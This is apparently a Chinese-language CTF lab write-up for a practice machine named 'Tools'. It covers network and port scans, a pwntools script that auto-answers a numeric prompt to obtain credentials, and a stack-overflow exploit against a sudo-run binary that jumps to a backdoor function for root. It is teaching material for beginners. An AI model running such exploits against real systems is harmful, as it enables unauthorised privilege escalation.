## 网段扫描

```                   
root@LingMj:~/xxoo# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.202	a0:78:17:62:e5:0a	Apple, Inc.
192.168.137.210	3e:21:9c:12:bd:a3	(Unknown: locally administered)

8 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.062 seconds (124.15 hosts/sec). 3 responded
```

## 端口扫描

```
root@LingMj:~/xxoo# nmap -p- -sC -sV 192.168.137.210
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-15 11:07 EDT
Nmap scan report for Tools.mshome.net (192.168.137.210)
Host is up (0.027s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html).
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP: 
|     Please input [240]: Error: Incorrect input! Connection closed.
|   DNSVersionBindReqTCP: 
|     Please input [342]: Error: Incorrect input! Connection closed.
|   FourOhFourRequest: 
|     Please input [299]: Error: Incorrect input! Connection closed.
|   GenericLines: 
|     Please input [768]: Error: Incorrect input! Connection closed.
|   GetRequest: 
|     Please input [905]: Error: Incorrect input! Connection closed.
|   HTTPOptions: 
|     Please input [696]: Error: Incorrect input! Connection closed.
|   Help: 
|     Please input [413]: Error: Incorrect input! Connection closed.
|   Kerberos: 
|     Please input [998]: Error: Incorrect input! Connection closed.
|   LDAPBindReq: 
|     Please input [218]: Error: Incorrect input! Connection closed.
|   LDAPSearchReq: 
|     Please input [356]: Error: Incorrect input! Connection closed.
|   LPDString: 
|     Please input [178]: Error: Incorrect input! Connection closed.
|   NULL: 
|     Please input [768]:
|   RPCCheck: 
|     Please input [784]: Error: Incorrect input! Connection closed.
|   RTSPRequest: 
|     Please input [792]: Error: Incorrect input! Connection closed.
|   SMBProgNeg: 
|     Please input [889]: Error: Incorrect input! Connection closed.
|   SSLSessionReq: 
|     Please input [102]: Error: Incorrect input! Connection closed.
|   TLSSessionReq: 
|     Please input [296]: Error: Incorrect input! Connection closed.
|   TerminalServerCookie: 
|     Please input [695]: Error: Incorrect input! Connection closed.
|   X11Probe: 
|_    Please input [152]: Error: Incorrect input! Connection closed.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.95%I=7%D=6/15%Time=684EE1CA%P=aarch64-unknown-linux-gn
SF:u%r(NULL,14,"Please\x20input\x20\[768\]:\x20")%r(GenericLines,3F,"Pleas
SF:e\x20input\x20\[768\]:\x20Error:\x20Incorrect\x20input!\x20Connection\x
SF:20closed\.\n")%r(GetRequest,3F,"Please\x20input\x20\[905\]:\x20Error:\x
SF:20Incorrect\x20input!\x20Connection\x20closed\.\n")%r(HTTPOptions,3F,"P
SF:lease\x20input\x20\[696\]:\x20Error:\x20Incorrect\x20input!\x20Connecti
SF:on\x20closed\.\n")%r(RTSPRequest,3F,"Please\x20input\x20\[792\]:\x20Err
SF:or:\x20Incorrect\x20input!\x20Connection\x20closed\.\n")%r(RPCCheck,3F,
SF:"Please\x20input\x20\[784\]:\x20Error:\x20Incorrect\x20input!\x20Connec
SF:tion\x20closed\.\n")%r(DNSVersionBindReqTCP,3F,"Please\x20input\x20\[34
SF:2\]:\x20Error:\x20Incorrect\x20input!\x20Connection\x20closed\.\n")%r(D
SF:NSStatusRequestTCP,3F,"Please\x20input\x20\[240\]:\x20Error:\x20Incorre
SF:ct\x20input!\x20Connection\x20closed\.\n")%r(Help,3F,"Please\x20input\x
SF:20\[413\]:\x20Error:\x20Incorrect\x20input!\x20Connection\x20closed\.\n
SF:")%r(SSLSessionReq,3F,"Please\x20input\x20\[102\]:\x20Error:\x20Incorre
SF:ct\x20input!\x20Connection\x20closed\.\n")%r(TerminalServerCookie,3F,"P
SF:lease\x20input\x20\[695\]:\x20Error:\x20Incorrect\x20input!\x20Connecti
SF:on\x20closed\.\n")%r(TLSSessionReq,3F,"Please\x20input\x20\[296\]:\x20E
SF:rror:\x20Incorrect\x20input!\x20Connection\x20closed\.\n")%r(Kerberos,3
SF:F,"Please\x20input\x20\[998\]:\x20Error:\x20Incorrect\x20input!\x20Conn
SF:ection\x20closed\.\n")%r(SMBProgNeg,3F,"Please\x20input\x20\[889\]:\x20
SF:Error:\x20Incorrect\x20input!\x20Connection\x20closed\.\n")%r(X11Probe,
SF:3F,"Please\x20input\x20\[152\]:\x20Error:\x20Incorrect\x20input!\x20Con
SF:nection\x20closed\.\n")%r(FourOhFourRequest,3F,"Please\x20input\x20\[29
SF:9\]:\x20Error:\x20Incorrect\x20input!\x20Connection\x20closed\.\n")%r(L
SF:PDString,3F,"Please\x20input\x20\[178\]:\x20Error:\x20Incorrect\x20inpu
SF:t!\x20Connection\x20closed\.\n")%r(LDAPSearchReq,3F,"Please\x20input\x2
SF:0\[356\]:\x20Error:\x20Incorrect\x20input!\x20Connection\x20closed\.\n"
SF:)%r(LDAPBindReq,3F,"Please\x20input\x20\[218\]:\x20Error:\x20Incorrect\
SF:x20input!\x20Connection\x20closed\.\n");
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.80 seconds
```

## 获取webshell

  

>这个靶机是促进大家学pwn的，我这个博客好像没有pwn的操作导致我每次都要去翻群主视频，所以必须出一个巩固流程
>

  

>可以看的需要不断的输入回现，我有想过是输入多少次直接返回密码，然后问了gtp，很明显gtp是大傻子给不了我答案🤔，所以我打算自己写一个，当然测试这个被我跳过了因为写的时间太长
>
>学习写的地址也是有的：https://pwntools-docs-zh.readthedocs.io/zh-cn/dev/，记得安装pwntools
>

```
root@LingMj:~/xxoo# python3 exp1.py
[+] Opening connection to 192.168.137.210 on port 1337: Done
725
[*] Switching to interactive mode
 $ 
[*] Interrupted
[*] Closed connection to 192.168.137.210 port 1337
                                                                                                                                                                                                        
root@LingMj:~/xxoo# cat exp1.py 
from pwn import *
import re

p = remote("192.168.137.210", "1337")

a = p.recvuntil(b':').decode()
pattern = r'-?\d+'
value = re.findall(pattern, a)
print(value[0])
p.interactive()
```

>用一下python正则去处理这个数字出来，接下来就是循环去填写
>

  

```
from pwn import *
import re

p = remote("192.168.137.210", "1337")

for i in range(100):
	a = p.recvuntil(b':').decode()
	print(a)
	pattern = r'-?\d+'
	value = re.findall(pattern, a)
	print(value[0])
	p.send(value[0])
p.interactive()
```

>可以看的我已经成功将它自动填写了，但是100好像不够，具体是250，需要测量
>

  

>跑完刚好出现账号和密码
>

## 提权

  

>妥妥pwn题，先测偏移量，这个我也研究够呛
>

  

>典型运行，输入栈溢出，新手的话可以看：https://blog.csdn.net/qq_41988448/article/details/103755773
>

  

>我当时卡住着怎么断错误，不过不影响查找奥
>

  

>先看这个rip
>

  

>可以看的存在后门
>

  

>接着看rsp找到溢出地址
>

  

>可以看的偏移量是23
>

  

>接着找到后门地址直接构建payload
>

```
from pwn import *

context(arch='amd64', os='linux')

p = process(["sudo", "/opt/find_backdoor"])

payload = b'A' * 23 + p64(0x0000000000401186)
p.send(payload)
p.interactive()
```

  

>挺简单的，算是pwn非常入门，而且留有pwntools和pwndbg对新手友好，可以冲冲冲！！！
>

>userflag:
>
>rootflag:
>
